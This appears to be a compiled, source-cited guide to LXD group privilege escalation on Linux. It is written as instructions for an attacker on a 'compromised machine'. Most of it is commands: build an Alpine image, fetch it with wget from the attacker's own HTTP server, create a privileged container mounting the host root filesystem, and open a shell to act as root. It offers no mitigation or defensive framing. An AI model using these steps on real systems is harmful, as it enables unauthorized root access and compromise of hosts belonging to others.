 LXD (Linux Container Daemon) can be used for privilege escalation if a compromised user account is a member of the `lxd` or `lxc` group. This is possible because LXD operates as a root process and carries out actions for any user with write access to the LXD UNIX socket, often without attempting to match the privileges of the calling user [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

Here is a step-by-step guide on how you can use LXD for privilege escalation on a compromised machine:

1. **Check if the compromised user is a member of the `lxd` or `lxc` group**: You can do this by examining the `/etc/group` file for the compromised user's name [Source 6](https://reboare.github.io/lxd/lxd-escape.html). 

```bash
cat /etc/group | grep "lxd\|lxc"
```

2. **Create an LXD image**: You need to create an LXD image that you can import into the compromised system. You can do this using the `lxd-alpine-builder` script available on GitHub [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This script will create an Alpine Linux image for LXD.

3. **Transfer the image to the compromised machine**: You can use a simple HTTP server to host the image and then download it onto the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
# On your local machine
python -m SimpleHTTPServer

# On the compromised machine
cd /tmp
wget http://your-ip-address:8000/alpine-image.tar.gz
```

4. **Import the image into LXD**: Once the image is on the compromised machine, you can import it into LXD [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
lxc image import ./alpine-image.tar.gz --alias myimage
```

5. **Create and start a new container**: Create a new container using the imported image and start it [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
```

6. **Execute commands inside the container**: With the container running, you can execute commands inside it. Since the container has access to the host's root filesystem, you can perform actions as the root user [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc exec ignite /bin/sh
```

Once inside the container, you can navigate to `/mnt/root` to access the host's filesystem. From here, you can perform actions as the root user, effectively escalating your privileges on the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).
/git